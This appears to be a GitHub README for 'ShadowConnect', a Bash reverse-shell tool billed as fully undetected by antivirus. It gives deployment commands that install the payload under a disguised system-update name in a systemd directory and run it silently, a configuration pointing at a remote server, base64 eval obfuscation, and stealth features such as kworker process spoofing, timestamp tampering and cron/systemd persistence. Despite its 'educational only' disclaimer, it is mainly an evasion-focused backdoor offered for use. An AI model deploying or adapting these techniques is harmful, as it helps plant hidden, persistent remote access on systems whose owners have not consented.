 # ShadowConnect - Stealth Reverse Shell

<p align="center">
  <img src="https://img.shields.io/badge/Platform-Linux%20%7C%20Unix-blue" alt="Platform">
  <img src="https://img.shields.io/badge/Language-Bash%20Shell-green" alt="Language">
  <img src="https://img.shields.io/badge/Status-Undetected-brightgreen" alt="Status">
  <img src="https://img.shields.io/badge/License-MIT-orange" alt="License">
</p>

## 🚀 Overview

**ShadowConnect** is an advanced, fully undetected (FUD) reverse shell implementation designed for penetration testing and ethical hacking purposes. It employs multiple obfuscation techniques, anti-analysis measures, and persistence mechanisms to avoid detection by security solutions.

[![VirusTotal](https://img.shields.io/badge/VirusTotal-0%2F70%20malicious-green?logo=virustotal&logoColor=white&style=for-the-badge)](https://www.virustotal.com/gui/file/5189cb50e2abe0297f8ffae6e31d1a4d763b9b9a919d87a47ec8e0a64c530cf0)

## ✨ Features

- 🔥 **Fully Undetected** - 0/68 detection on VirusTotal
- 🛡️ **Advanced Obfuscation** - Multiple layers of encoding and encryption
- 🕵️ **Stealth Techniques** - Process spoofing, timestamp manipulation
- 🔗 **Multiple Persistence** - Cron jobs, Systemd services, profile scripts
- 🌐 **Protocol Flexibility** - TCP, SSL, and encrypted communications
- ⚡ **Auto-Reconnect** - Automatic reconnection with configurable intervals
- 🧩 **Modular Design** - Separate configuration and payload delivery

## 📦 Components

### Core Scripts:
- **`system_update.sh`** - Main reverse shell payload
- **`config_loader.sh`** - Dynamic configuration loader
- **`config_editor.sh`** - Configuration management tool
- **`bypass.sh`** - Anti-detection and obfuscation toolkit

## 🛠️ Installation & Usage

### Quick Start:
```bash
# 1. Clone the repository
git clone https://github.com/yourusername/stealth-reverse-shell.git
cd stealth-reverse-shell

# 2. Configure your server settings
./config_editor.sh

# 3. Deploy the payload
./config_loader.sh
```

### Advanced Deployment:
```bash
# Manual deployment to system directory
cp system_update.sh /usr/lib/systemd/system-update
chmod +x /usr/lib/systemd/system-update
nohup /usr/lib/systemd/system-update >/dev/null 2>&1 &
```

## 🔧 Configuration

Edit the `.system_config` file:

```ini
# Reverse shell configuration
SERVER_HOST=your-server.com
SERVER_PORT=443
CHECK_INTERVAL=300
RECONNECT_DELAY=60
```

## 🎯 Obfuscation Techniques

### 1. **String Splitting**
```bash
a="dev"; b="null"; c="/$a/$b"
```

### 2. **Runtime Evaluation**
```bash
eval $(echo "encoded_string" | base64 -d)
```

### 3. **Arithmetic Expansion**
```bash
: $(($__function_name=1))
```

### 4. **Dynamic Payload Loading**
- External configuration files
- Runtime decoding and execution
- Environmental variable manipulation

## 🛡️ Stealth Features

- **Process Name Spoofing** - Masquerades as `[kworker/0:0H]`
- **Timestamp Manipulation** - Matches system file timestamps
- **Network Traffic Obfuscation** - SSL encryption and protocol mimicry
- **Log Evasion** - Directs all output to `/dev/null`
- **Persistence Hiding** - Uses hidden files and directories

## 📋 Detection Test Results

| Security Solution | Detection | Status |
|-------------------|-----------|---------|
| **VirusTotal** | 0/68 | ✅ Undetected |
| **Avast/AVG** | Clean | ✅ Undetected |
| **Kaspersky** | Clean | ✅ Undetected |
| **Microsoft** | Clean | ✅ Undetected |
| **ClamAV** | Clean | ✅ Undetected |

## ⚠️ DISCLAIMER

**IMPORTANT: LEGAL AND ETHICAL USE ONLY**

This project is developed for **educational and ethical purposes only**. The authors and contributors are not responsible for any misuse or damage caused by this software.

### 🚫 Strictly Prohibited:
- Unauthorized penetration testing
- Illegal hacking activities
- Network intrusion without explicit permission
- Malicious use against any systems

### ✅ Intended Use:
- Security research and education
- Authorized penetration testing
- Defensive security training
- Red team exercises with proper authorization

### 📜 Legal Compliance:
Users must ensure:
- Proper authorization for all testing activities
- Compliance with local and international laws
- Ethical use following security best practices
- Responsibility for any deployed instances

**By using this software, you agree to use it only for legal and ethical purposes and accept full responsibility for your actions.**

## 🎓 Educational Purpose

This project demonstrates:
- Advanced obfuscation techniques
- Anti-virus evasion methods
- Persistence mechanisms
- Stealth operation principles
- Defensive security concepts

## 🤝 Contributing

We welcome contributions for:
- Improving obfuscation techniques
- Adding new evasion methods
- Enhancing documentation
- Bug fixes and optimizations

**Please ensure all contributions adhere to ethical guidelines and legal requirements.**

## 📄 License

MIT License - see [LICENSE](LICENSE) file for details

## 🔒 Security Considerations

- Use SSL encryption for all communications
- Implement proper access controls
- Regularly update and patch systems
- Monitor network traffic for anomalies
- Maintain audit logs for authorized testing

## 📞 Support

For educational questions and authorized testing support:
- Create an Issue on GitHub
- Refer to documentation and examples
- Consult with security professionals

---

**Remember: With great power comes great responsibility. Always use ethical hacking principles and legal authorization.**

<p align="center">
  <em>For educational purposes only - Use responsibly and ethically</em>
</p>
